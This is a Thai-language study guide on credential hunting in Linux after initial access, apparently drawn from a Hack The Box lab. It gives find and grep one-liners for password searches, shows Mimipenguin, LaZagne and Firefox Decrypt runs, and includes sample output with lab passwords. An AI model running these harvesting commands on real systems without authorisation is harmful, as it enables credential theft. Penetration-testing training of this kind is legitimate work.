

# การล่าข้อมูลรับรอง (Credentials) ใน Linux

## บทนำ

การล่าหาข้อมูลรับรองเป็นหนึ่งในขั้นตอนแรกหลังจากที่เราเข้าถึงระบบได้แล้ว ข้อมูลเหล่านี้สามารถให้สิทธิ์ที่สูงขึ้นได้ภายในเวลาไม่กี่วินาทีหรือนาที ซึ่งเป็นส่วนหนึ่งของกระบวนการยกระดับสิทธิ์ในเครื่อง (Local Privilege Escalation)

**สถานการณ์สมมติ:** เราได้เข้าถึงระบบผ่านช่องโหว่ของเว็บแอปพลิเคชันและได้ reverse shell มาแล้ว เป้าหมายคือการค้นหารหัสผ่านหรือข้อมูลรับรองที่สามารถใช้ login เข้าระบบได้

## 4 หมวดหมู่หลักของแหล่งข้อมูลรับรอง

### 1. **Files (ไฟล์)**
- Configuration files
- Databases
- Notes
- Scripts
- Source code
- Cronjobs
- SSH keys

### 2. **History (ประวัติ)**
- Log files
- Command-line history

### 3. **Memory (หน่วยความจำ)**
- Cache
- In-memory processing

### 4. **Key-rings (พวงกุญแจ)**
- Browser stored credentials

## หลักการสำคัญ

### Linux Principle: "Everything is a File"
ทุกอย่างใน Linux คือไฟล์ ดังนั้นเราต้องค้นหา กรอง และตรวจสอบไฟล์ตามหมวดหมู่

### การวิเคราะห์ระบบ
- เข้าใจว่าระบบทำงานอย่างไร
- วัตถุประสงค์ของระบบคือเพื่ออะไร
- บทบาทของระบบใน Business Logic และเครือข่ายโดยรวม
- **ตัวอย่าง:** ถ้าเป็น Database Server ที่แยกออกมา อาจไม่มี user ทั่วไปเพราะเป็นส่วนที่ sensitive

---

## 1. การค้นหาจากไฟล์ (Files)

### 1.1 Configuration Files

**นามสกุลไฟล์ที่ต้องค้นหา:**
- `.config`
- `.conf`
- `.cnf`

**คำสั่งค้นหา:**
```bash
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

**ผลลัพธ์ตัวอย่าง:**
```
File extension:  .conf
/run/tmpfiles.d/static-nodes.conf
/etc/ltrace.conf
/etc/fprintd.conf

File extension:  .config
/home/cry0l1t3/.config

File extension:  .cnf
/etc/ssl/openssl.cnf
/etc/mysql/my.cnf
/etc/mysql/debian.cnf
```

**ค้นหาคำสำคัญในไฟล์ .cnf:**
```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

**ผลลัพธ์:**
```
File:  /etc/mysql/mysql.conf.d/mysqld.cnf
user		= mysql
```

### 1.2 Databases

**นามสกุลไฟล์ฐานข้อมูล:**
- `.sql`
- `.db`
- `.*db`
- `.db*`

**คำสั่งค้นหา:**
```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

**ผลลัพธ์ตัวอย่าง:**
```
/home/cry0l1t3/.mozilla/firefox/1bplpd86.default-release/cert9.db
/home/cry0l1t3/.mozilla/firefox/1bplpd86.default-release/key4.db
/home/cry0l1t3/.cache/tracker/meta.db
```

### 1.3 Notes (บันทึก)

**ความท้าทาย:** ไฟล์บันทึกอาจมีชื่ออะไรก็ได้และไม่จำเป็นต้องมีนามสกุล

**คำสั่งค้นหา:**
```bash
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

**ไฟล์ที่พบ:**
```
/home/cry0l1t3/.config/caja/desktop-metadata
/home/cry0l1t3/.config/clipit/clipitrc
/home/cry0l1t3/.mozilla/firefox/bh4w5vd0.default-esr/pkcs11.txt
```

### 1.4 Scripts (สคริปต์)

**นามสกุลที่ต้องค้นหา:**
- `.py` (Python)
- `.pyc` (Python Compiled)
- `.pl` (Perl)
- `.go` (Golang)
- `.jar` (Java)
- `.c` (C)
- `.sh` (Shell Script)

**คำสั่งค้นหา:**
```bash
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

**ทำไมสคริปต์สำคัญ:**
- มักเก็บข้อมูล sensitive และกระบวนการสำคัญ
- มีข้อมูลรับรองที่ใช้เรียกและรันกระบวนการอัตโนมัติ
- ถ้าไม่มีข้อมูลรับรองในสคริปต์ admin จะต้องใส่รหัสผ่านทุกครั้งที่รัน

### 1.5 Cronjobs

**ที่ตั้งของ Cronjobs:**
- `/etc/crontab` (System-wide)
- `/etc/cron.daily/`
- `/etc/cron.hourly/`
- `/etc/cron.monthly/`
- `/etc/cron.weekly/`
- `/etc/cron.d/` (Debian-based)

**คำสั่งตรวจสอบ:**
```bash
cat /etc/crontab
ls -la /etc/cron.*/
```

**ตัวอย่าง crontab:**
```
Watunyoo@htb[/htb]$ cat /etc/crontab 

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
Watunyoo@htb[/htb]$ ls -la /etc/cron.*/

/etc/cron.d/:
total 28
drwxr-xr-x 1 root root  106  3. Jan 20:27 .
drwxr-xr-x 1 root root 5728  1. Feb 00:06 ..
-rw-r--r-- 1 root root  201  1. Mär 2021  e2scrub_all
-rw-r--r-- 1 root root  331  9. Jan 2021  geoipupdate
-rw-r--r-- 1 root root  607 25. Jan 2021  john
-rw-r--r-- 1 root root  589 14. Sep 2020  mdadm
-rw-r--r-- 1 root root  712 11. Mai 2020  php
-rw-r--r-- 1 root root  102 22. Feb 2021  .placeholder
-rw-r--r-- 1 root root  396  2. Feb 2021  sysstat

/etc/cron.daily/:
total 68
drwxr-xr-x 1 root root  252  6. Jan 16:24 .
drwxr-xr-x 1 root root 5728  1. Feb 00:06 ..
<SNIP>
```

---

## 2. การค้นหาจาก History Files

### 2.1 Command History

**ไฟล์สำคัญ:**
- `.bash_history` - ประวัติคำสั่งที่ใช้
- `.bashrc` - Configuration
- `.bash_profile` - Configuration

**คำสั่งตรวจสอบ:**
```bash
tail -n5 /home/*/.bash*
```

**ผลลัพธ์ตัวอย่าง:**
```
Watunyoo@htb[/htb]$ tail -n5 /home/*/.bash*

==> /home/cry0l1t3/.bash_history <==
vim ~/testing.txt
vim ~/testing.txt
chmod 755 /tmp/api.py
su
/tmp/api.py cry0l1t3 6mX4UP1eWH3HXK

==> /home/cry0l1t3/.bashrc <==
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi
```

### 2.2 Log Files

**4 หมวดหมู่ของ Log Files:**
1. Application logs
2. Event logs
3. Service logs
4. System logs

**ไฟล์ Log สำคัญ:**

| ไฟล์ | คำอธิบาย |
|------|----------|
| `/var/log/messages` | System activity logs ทั่วไป |
| `/var/log/syslog` | System activity logs ทั่วไป |
| `/var/log/auth.log` | (Debian) Log การ Authentication ทั้งหมด |
| `/var/log/secure` | (RedHat/CentOS) Log การ Authentication |
| `/var/log/boot.log` | ข้อมูลการ Boot |
| `/var/log/dmesg` | Hardware และ drivers |
| `/var/log/kern.log` | Kernel warnings และ errors |
| `/var/log/faillog` | ความพยายาม Login ที่ล้มเหลว |
| `/var/log/cron` | ข้อมูล Cron jobs |
| `/var/log/mail.log` | Mail server logs |
| `/var/log/httpd` | Apache logs |
| `/var/log/mysqld.log` | MySQL server logs |

**คำสั่งค้นหาข้อมูลสำคัญใน Log:**
```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

**ผลลัพธ์ตัวอย่าง:**
```
#### Log file:  /var/log/dpkg.log.1
2022-01-10 17:57:41 install libssh-dev:amd64 <none> 0.9.5-1+deb11u1
```

---

## 3. การค้นหาจาก Memory และ Cache

### 3.1 Mimipenguin

**คำอธิบาย:**
- Tool สำหรับดึงข้อมูลรับรองจาก Memory ใน Linux
- ต้องการสิทธิ์ administrator/root

**การใช้งาน:**
```bash
sudo python3 mimipenguin.py
```

**ผลลัพธ์:**
```
[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY
```

### 3.2 LaZagne

**คำอธิบาย:**
- Tool ที่ทรงพลังกว่า Mimipenguin
- สามารถดึงข้อมูลรับรองจากแหล่งต่างๆ มากมาย

**แหล่งข้อมูลที่ LaZagne สามารถดึงได้:**
- **เครือข่าย:** Wifi, Wpa_supplicant
- **Password Managers:** Libsecret, Kwallet, Keepass, Keyrings
- **เบราว์เซอร์:** Chromium-based, Mozilla, Thunderbird
- **Development Tools:** Git, Docker, Apache
- **Cloud/FTP:** AWS, Filezilla, Gftp
- **ระบบ:** CLI, ENV variables, Grub, Fstab, Shadow, SSH
- **อื่นๆ:** Sessions, Mimipy

**Keyrings คืออะไร:**
- ระบบจัดเก็บและจัดการรหัสผ่านอย่างปลอดภัยใน Linux
- เข้ารหัสด้วย Master Password
- เป็น Password Manager ระดับ OS

**การใช้งาน:**
```bash
sudo python2.7 laZagne.py all
```

**ผลลัพธ์ตัวอย่าง:**
```
------------------- Shadow passwords -----------------
[+] Hash found !!!
Login: sambauser
Hash: $6$wgK4tGq7Jepa.V0g$Qk...

[+] Password found !!!
Login: cry0l1t3
Password: WLpAEXFa0SbqOHY

[+] 3 passwords have been found.
```

---

## 4. Browser Credentials

### Mozilla Firefox

**การเก็บข้อมูล:**
- Firefox เก็บรหัสผ่านแบบเข้ารหัสในโฟลเดอร์ซ่อน
- ไฟล์: `logins.json`
- ตำแหน่ง: `.mozilla/firefox/[profile].default-release/`

**ค้นหา Firefox Profile:**
```bash
ls -l .mozilla/firefox/ | grep default
```

**ผลลัพธ์:**
```
drwx------ 11 cry0l1t3 cry0l1t3 4096 Jan 28 16:02 1bplpd86.default-release
drwx------  2 cry0l1t3 cry0l1t3 4096 Jan 28 13:30 lfx3lvhb.default
```

**ตรวจสอบ logins.json:**
```bash
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

**ผลลัพธ์ตัวอย่าง:**
```json
{
  "nextId": 2,
  "logins": [
    {
      "id": 1,
      "hostname": "https://www.inlanefreight.com",
      "usernameField": "username",
      "passwordField": "password",
      "encryptedUsername": "MDoEEPgAAAA...SNIP...",
      "encryptedPassword": "MEIEEPgAAAA...SNIP...",
      "timeCreated": 1643373110869
    }
  ]
}
```

### Firefox Decrypt

**คำอธิบาย:**
- Tool สำหรับถอดรหัส credentials ของ Firefox
- ต้องการ Python 3.9 สำหรับเวอร์ชันล่าสุด
- หรือ Firefox Decrypt 0.7.0 กับ Python 2

**การใช้งาน:**
```bash
python3.9 firefox_decrypt.py
```

**การเลือก Profile:**
```
Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2
```

**ผลลัพธ์:**
```
Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```

### ใช้ LaZagne กับ Browser

**คำสั่ง:**
```bash
python3 laZagne.py browsers
```

**ผลลัพธ์:**
```
------------------- Firefox passwords -----------------

[+] Password found !!!
URL: https://www.inlanefreight.com
Login: cry0l1t3
Password: FzXUxJemKm6g2lGh

[+] 2 passwords have been found.
```

---

https://github.com/unode/firefox_decrypt
https://github.com/huntergregal/mimipenguin
https://github.com/AlessandroZ/LaZagne

